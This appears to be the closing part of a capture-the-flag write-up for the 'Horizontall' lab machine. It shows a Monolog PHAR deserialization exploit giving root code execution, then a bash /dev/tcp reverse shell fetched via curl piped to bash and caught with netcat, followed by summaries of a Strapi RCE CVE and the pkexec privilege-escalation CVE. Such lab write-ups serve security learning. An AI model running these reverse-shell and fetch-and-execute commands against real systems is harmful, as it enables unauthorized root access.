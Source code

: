 ```bash
remote: Counting objects: 100% (419/419), done.
remote: Compressing objects: 100% (137/137), done.
remote: Total 2872 (delta 324), reused 293 (delta 278), pack-reused 2453
Receiving objects: 100% (2872/2872), 408.60 KiB | 1.30 MiB/s, done.
Resolving deltas: 100% (1195/1195), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

root

[i] Trying to clear logs
[+] Logs cleared
```
Success!! We got RCE execution as root on the victim's machine. Last step is to obtain a reverse shell as root:
```bash
# Listening shell
❯ echo "bash -i >& /dev/tcp/10.10.16.5/5555 0>&1" > Exploits/reverse_tcp
❯ sudo python3 -m http.server 80 &
[1] 468350
❯ nc -nlvp 5555
# Triggering shell
❯ python3 exploit.py http://localhost:8000 Monolog/RCE1 'curl http://10.10.16.5/Exploits/reverse_tcp -s | bash'
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
```
After executing, in the listening shell we should obtain:
```bash
Connection from 10.10.11.105:40544
bash: cannot set terminal process group (26801): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# ls
favicon.ico
index.html
index.php
reverse_tcp
reverse_tcp.1
robots.txt
web.config
root@horizontall:/home/developer/myproject/public# whoami
```
So we obtained a root shell.

## CVE
### [CVE-2019-19609](https://www.cvedetails.com/cve/CVE-2019-19609/)
The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.
### [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine. 